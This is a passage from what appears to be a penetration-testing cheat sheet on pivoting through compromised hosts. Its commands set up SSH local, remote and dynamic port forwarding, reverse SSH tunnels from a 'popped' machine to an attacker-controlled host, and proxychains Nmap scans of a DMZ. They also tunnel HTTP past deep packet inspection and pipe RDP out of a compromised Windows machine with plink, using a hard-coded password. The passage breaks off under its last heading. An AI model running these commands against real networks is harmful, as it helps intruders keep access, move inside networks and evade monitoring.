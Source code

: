 -   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   `ssh <gateway> -L <local port to listen>:<remote
        host>:<remote port>`

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   `ssh <gateway> -R <remote port to bind>:<local
        host>:<local port>`

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   `ssh -D <local proxy port> -p <remote port>
        <target>`

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
        `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    -   Create a Dynamic application-level port forward on 8080 thru
        2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

-   HTTP Tunneling

      `nc -vvn $ip 8888`

-   Traffic Encapsulation - Bypassing deep packet inspection

    -   http tunnel
        On server side:
        `sudo hts -F <server ip addr>:<port of your app> 80  `
        On client side:
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    -   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)
